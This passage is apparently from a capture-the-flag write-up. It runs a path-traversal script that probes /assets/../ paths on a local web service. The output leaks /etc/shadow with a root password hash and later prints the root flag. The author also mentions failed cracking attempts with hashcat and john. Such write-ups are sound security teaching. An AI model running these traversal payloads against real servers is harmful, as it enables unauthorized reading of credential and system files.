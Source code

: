 So for the password, there is just an `x`. But when I try the shadow file, I get an encrypted password.

```
$ bash exploit.sh
[+] Testing with /assets/../etc/shadow
	Status code --> 404
[+] Testing with /assets/../../etc/shadow
	Status code --> 404
[+] Testing with /assets/../../../etc/shadow
	Status code --> 200
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
```

I was unable to crack the password after running `hascat` and `john` for 4+ hours :( (sad face).

I was able to get the root flag by changing the lines in `exploit.sh`:

```
#!/bin/bash

url="http://127.0.0.1:8081"
string="../"
payload="/assets/"
file="root/root.txt" # Change this line

...
```

I changed the file variable, as the `etc` directory is in the same linux system directory as `root`.

When I run `exploit.sh`, I get the `root` flag in `/root/root.txt`:

```
$ bash exploit.sh
[+] Testing with /assets/../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../root/root.txt
	Status code --> 404
[+] Testing with /assets/../../../root/root.txt
	Status code --> 200
77cf7b0ef8d75c155cf78a5f00b4b137
```
